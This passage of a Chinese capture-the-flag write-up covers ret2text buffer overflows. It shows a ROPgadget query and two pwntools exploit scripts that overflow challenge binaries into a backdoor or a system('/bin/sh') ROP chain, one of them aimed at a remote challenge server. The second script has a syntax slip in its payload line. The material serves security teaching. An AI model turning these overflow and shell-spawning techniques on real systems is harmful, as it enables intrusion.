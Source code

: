 新版添加了栈对齐校验也有办法绕过，添加一个ret指令即可：

使用ROPgadget查询ret指令：

```bash
ROPgadget --binary ./pwn --only "pop|ret"
```

![image-20240522173002990](http://image.shangu127.top/img/2024/03/image-20240522173002990.png)

此脚本可以在高版本linux中成功利用漏洞：

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
elf = ELF("./pwn") #使用ELF函数去解析目标文件，存储为elf对象
io = process("./pwn") #启动一个进程，命名为io
io.recvuntil(b"do you know ret2text?\n") #一直接收数据，直到接收到指定数据
back_door = 0x401235 #ida查找后门地址
ret = 0x40101a #ROPgadget --binary ./pwn --only "pop|ret"
payload = b's'*0x58 + p64(ret) + p64(back_door) #填充正常空间+rbp + 恶意地址
io.sendline(payload) #发生payloa
io.interactive() #进行交互
```



### ret2text2

:star2:exp:

```python
from pwn import *
from LibcSearcher import*
import sys
remote_addr = ["49.233.15.226",8003]
#libc=ELF('')
if len(sys.argv) == 1:
    context.log_level="debug" 
    #p = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu/", "-g","1234","./stack"]) 
    #p = process(["qemu-aarch64", "-L", ".", "./stack"]) 
    p = process("")
    context(arch='', os='linux')
if len(sys.argv) == 2 :
    if 'r' in sys.argv[1]:
        p = remote(remote_addr[0],remote_addr[1])
    if 'n' not in sys.argv[1]:
        context.log_level="debug" 
        #context(arch = 'amd64', os = 'linux')
r = lambda : p.recv()
rc = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()
pr = lambda name,x : log.info(name+':'+hex(x))

pop_rdi = 0x4012c3
bin_sh = 0x404048
system_addr = 0x401254

payload = b'a' (0xa0 + 0x8) + p64(pop_rdi) + p64(bin_sh) + p64(system_addr)
sl(payload)

shell()
```